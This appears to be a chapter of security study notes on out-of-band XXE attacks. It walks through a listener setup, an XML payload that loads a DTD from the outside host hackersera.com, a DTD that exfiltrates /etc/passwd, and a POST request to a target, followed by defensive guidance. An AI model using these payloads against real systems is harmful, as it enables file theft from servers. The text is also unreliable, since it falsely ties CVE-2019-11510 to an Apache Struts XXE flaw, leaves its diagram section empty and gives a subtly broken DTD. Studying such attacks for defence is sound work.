

## Introduction to Out-of-Band XML External Entity (XXE) Exploitation

In the realm of API security, one of the most critical vulnerabilities to understand and mitigate is the XML External Entity (XXE) attack. This type of attack exploits the way an application processes XML input, particularly when external entities are enabled. In this chapter, we will delve into the specifics of out-of-band XXE exploitation using the FTP protocol, providing a comprehensive understanding of the attack vector, its mechanics, and how to defend against it.

### What is an XXE Attack?

An XXE attack occurs when an application parses untrusted XML input without proper validation or sanitization. XML documents can contain references to external entities, which can be used to retrieve sensitive information from the server or even execute arbitrary commands. The attack can be categorized into two types:

1. **In-Band XXE**: The attacker receives the result of the attack through the same channel used to send the malicious XML.
2. **Out-of-Band XXE**: The attacker uses a different communication channel to receive the result of the attack.

### Why Out-of-Band XXE Matters

Out-of-band XXE attacks are particularly dangerous because they can bypass certain security measures designed to prevent in-band attacks. By leveraging external protocols like FTP, attackers can exfiltrate data without being detected by traditional security mechanisms. This makes out-of-band XXE a sophisticated and stealthy method of exploiting vulnerabilities.

### Real-World Example: CVE-2019-11510

A notable real-world example of an XXE attack is CVE-2019-11510, which affected the Apache Struts framework. This vulnerability allowed attackers to perform XXE attacks, leading to remote code execution. The attack was possible due to the improper handling of XML input in the framework, allowing attackers to inject malicious XML entities.

### Scenario Setup

Let's consider a scenario where we have a vulnerable website (`vulnerablewebsite.com`). Our goal is to read a file located at `/etc/passwd` on the server. However, the application does not display the contents of the file directly. Instead, we will use an out-of-band technique to exfiltrate the data.

### Step-by-Step Demonstration

#### Creating a Public Server

To perform an out-of-band XXE attack, we need to set up a public server that can receive the exfiltrated data. This server will act as a listener for the data sent by the vulnerable application.

```bash
# Setting up a simple HTTP server using Python
python3 -m http.server 8080
```

This command starts a basic HTTP server on port 8080. You can access this server using `http://<your-public-ip>:8080`.

#### Crafting the Malicious XML

Next, we craft a malicious XML document that includes an external entity reference. This entity will be resolved by the vulnerable application, causing it to send the contents of the `/etc/passwd` file to our public server.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "ftp://hackersera.com/XSE.dtd">
%remote;
]>
<root>&send;</root>
```

In this XML document:
- `SYSTEM "ftp://hackersera.com/XSE.dtd"` specifies the location of the external DTD file.
- `%remote;` imports the external DTD.
- `&send;` triggers the exfiltration of the file content.

#### Creating the External DTD File

The external DTD file (`XSE.dtd`) contains the logic to exfiltrate the data. Here’s an example of what the DTD might look like:

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % send "<!ENTITY &#x25; send SYSTEM 'http://<your-public-ip>:8080/?data=%file;'>">
```

In this DTD:
- `SYSTEM "file:///etc/passwd"` specifies the file to be read.
- `%send;` sends the content of the file to the public server.

#### Sending the Malicious XML

Now, we send the crafted XML document to the vulnerable application. This can be done via an HTTP POST request.

```http
POST /api/v1/process HTTP/1.1
Host: vulnerablewebsite.com
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "ftp://hackersera.com/XSE.dtd">
%remote;
]>
<root>&send;</root>
```

#### Receiving the Exfiltrated Data

Once the malicious XML is processed by the vulnerable application, the contents of `/etc/passwd` will be sent to our public server. We can then access the data by visiting `http://<your-public-ip>:8080`.

### Mermaid Diagram: Attack Flow



### Common Pitfalls and Detection

#### Common Pitfalls

1. **Improper Input Validation**: Failing to validate and sanitize XML input can lead to successful XXE attacks.
2. **Enabling External Entities**: Allowing the processing of external entities without proper restrictions can expose the application to XXE attacks.
3. **Insufficient Logging**: Lack of logging can make it difficult to detect and trace XXE attacks.

#### Detection

Detection of XXE attacks can be challenging, but there are several methods to identify potential vulnerabilities:

1. **Static Code Analysis**: Tools like SonarQube and Fortify can help identify insecure XML parsing practices.
2. **Dynamic Analysis**: Penetration testing tools like Burp Suite and OWASP ZAP can simulate XXE attacks to test for vulnerabilities.
3. **Logging and Monitoring**: Implementing detailed logging and monitoring can help detect unusual activity indicative of an XXE attack.

### How to Prevent / Defend Against XXE Attacks

#### Secure Coding Practices

1. **Disable External Entities**: Ensure that the XML parser is configured to disable the processing of external entities.
2. **Input Validation**: Validate and sanitize all XML input to prevent injection of malicious entities.
3. **Use Secure Libraries**: Utilize libraries that are known to handle XML securely, such as `defusedxml` in Python.

#### Configuration Hardening

1. **XML Parser Configuration**: Configure the XML parser to disallow external entity resolution.
2. **Firewall Rules**: Implement firewall rules to block unauthorized access to sensitive files and directories.
3. **Network Segmentation**: Segment the network to limit the exposure of sensitive systems to potential attackers.

#### Secure Code Example

Here’s an example of how to securely parse XML in Python using `defusedxml`:

```python
from defusedxml import ElementTree as ET

def parse_xml(xml_data):
    try:
        tree = ET.fromstring(xml_data)
        return tree
    except ET.ParseError as e:
        print(f"Error parsing XML: {e}")
        return None

xml_data = """<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "ftp://hackersera.com/XSE.dtd">
%remote;
]>
<root>&send;</root>"""

tree = parse_xml(xml_data)
if tree is not None:
    print(ET.tostring(tree))
```

#### Vulnerable vs. Secure Code Comparison

**Vulnerable Code:**

```python
import xml.etree.ElementTree as ET

def parse_xml(xml_data):
    tree = ET.fromstring(xml_data)
    return tree

xml_data = """<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "ftp://hackersera.com/XSE.dtd">
%remote;
]>
<root>&send;</root>"""

tree = parse_xml(xml_data)
print(ET.tostring(tree))
```

**Secure Code:**

```python
from defusedxml import ElementTree as ET

def parse_xml(xml_data):
    try:
        tree = ET.fromstring(xml_data)
        return tree
    except ET.ParseError as e:
        print(f"Error parsing XML: {e}")
        return None

xml_data = """<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "ftp://hackersera.com/XSE.dtd">
%remote;
]>
<root>&send;</root>"""

tree = parse_xml(xml_data)
if tree is not None:
    print([ET.tostring(tree)])
```

### Practice Labs

For hands-on practice with XXE attacks, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive labs on XXE attacks.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing various security techniques, including XXE.
- **DVWA (Damn Vulnerable Web Application)**: Provides a variety of web application vulnerabilities, including XXE.

By thoroughly understanding the mechanics of out-of-band XXE attacks and implementing robust defensive measures, you can significantly reduce the risk of such vulnerabilities compromising your applications.

---
<!-- nav -->
[[01-Introduction to Out-of-Band XML External Entity (XXE) Exploitation Using FTP Protocol|Introduction to Out-of-Band XML External Entity (XXE) Exploitation Using FTP Protocol]] | [[API Security/22-Offensive XXE Exploitation/10-Out of Band with FTP Protocol48 Out of Band with FTP Protocol/00-Overview|Overview]] | [[03-Introduction to Out-of-Band XXE Exploitation with FTP Protocol|Introduction to Out-of-Band XXE Exploitation with FTP Protocol]]
